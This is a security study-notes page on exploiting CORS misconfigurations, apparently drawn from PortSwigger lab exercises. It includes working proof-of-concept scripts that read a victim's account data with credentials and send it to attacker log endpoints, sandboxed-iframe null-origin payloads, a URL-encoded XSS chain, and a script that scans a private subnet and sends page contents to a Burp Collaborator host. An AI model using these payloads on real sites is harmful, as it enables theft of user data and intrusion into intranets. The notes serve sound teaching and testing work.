


>[!info] Pre-requisites:
>- [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md)
>- [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md)

# Common vulnerabilities

## Server-generated Access-Control-Allow-Origin using client Origin

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

Malicious request:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Response from the vulnerable server:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
<p>secret=My5up3r53cr3t</p>
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session. Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain and read the secret.

PoC:
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ada00b4035e168fc11116f900d60017.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

### CSRF and CORF thanks to the Simple Requests concept

CORS misconfigurations can be escalated to [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) and [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) thanks to the Simple Requests concept [^simple-req-cors].

[^simple-req-cors]: [Paul Gerste - Never Underestimate CSRF Why Origin Reflection Is a Bad Idea](../../Readwise/Articles/Paul%20Gerste%20-%20Never%20Underestimate%20CSRF%20Why%20Origin%20Reflection%20Is%20a%20Bad%20Idea.md)

## Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted.

Mistakes often arise when implementing CORS origin whitelists. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

>[!example]
>Suppose an application grants access to all domains ending in: `normal-website.com`.
>An attacker might be able to gain access by registering the domain: `hackersnormal-website.com`.
>
>Alternatively, suppose an application grants access to all domains beginning with `normal-website.com`.
>An attacker might be able to gain access using the domain: `normal-website.com.evil-user.net`

## Whitelisted null origin value

The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

-   Cross-origin redirects.
-   Requests from serialized data.
-   Request using the `file:` protocol.
-   Sandboxed cross-origin requests.

If the server implements `Access-Control-Allow-Origin: null`, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header (e.g. sandboxed `<iframe>` ).

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Breaking TLS with poorly configured CORS and XSS

Even "correctly" configured [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md) establishes a trust relationship between two origins, if a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

The same logic can also be used to exploit application that rigorously employs HTTPS and also whitelists a trusted subdomain that is using plain HTTP. In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. 

>[!example]
>XSS on the trusted domain:
>
>CORS trusts the vulnerable domain:
>
>Exploit page sent to the victim which forces the redirect on the vulnerable page and triggers the cross-domain request
>```html
><script>document.location="http://stock.0add0064037cdee4c6b385fc00b600c7.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%30%61%64%64%30%30%36%34%30%33%37%63%64%65%65%34%63%36%62%33%38%35%66%63%30%30%62%36%30%30%63%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%72%65%71%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%65%64%30%30%65%32%30%33%64%63%64%65%30%36%63%36%37%66%38%34%30%64%30%31%37%34%30%30%62%63%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%6c%6f%67%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3b%3c%2f%73%63%72%69%70%74%3e%26%73%74%6f%72%65%49%64%3d%31&storeId=1"</script>
><!-- <script>document.location="http://stock.0add0064037cdee4c6b385fc00b600c7.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://0add0064037cdee4c6b385fc00b600c7.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aed00e203dcde06c67f840d017400bc.exploit-server.net/log?key='+this.responseText;};</script>&storeId=1&storeId=1"</script> -->
>```

## CORS without credentials with intranet pivot attack

Without  `Access-Control-Allow-Credentials: true` the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

However, there is one common similar situation where an attacker can't access a website directly: when it's part of an organization's intranet. A cross-origin request within a private network may be as follows:

```http
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

And the server responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

The application server is trusting resource requests from any origin without credentials. **If users within the private IP address space access the public internet** then a **CORS-based attack can be performed from the external** site that uses the victim's browser as a proxy **for accessing intranet resources** (it's like [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md) but using the victim's browser as proxy).

Scan a subnet and exfiltrate the page content:
```html
<html>
    <script>
        collaboratorURL = 'http://d4i329wl1e1wjgh7cec94oo51w7mvb.burpcollaborator.net'

        for (let i=0; i<256; i++){
            fetch('http://192.168.0.' + i + ':8080')
            .then(response => response.text())
            .then (text => {
                try {

                fetch(collaboratorURL + '?ip=' + 'http://192.168.0.' + i + "&code=" + encodeURIComponent(text))
                } catch(err){

                }
            })
        }
    </script>
</html>
```

# External Resources

- [Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)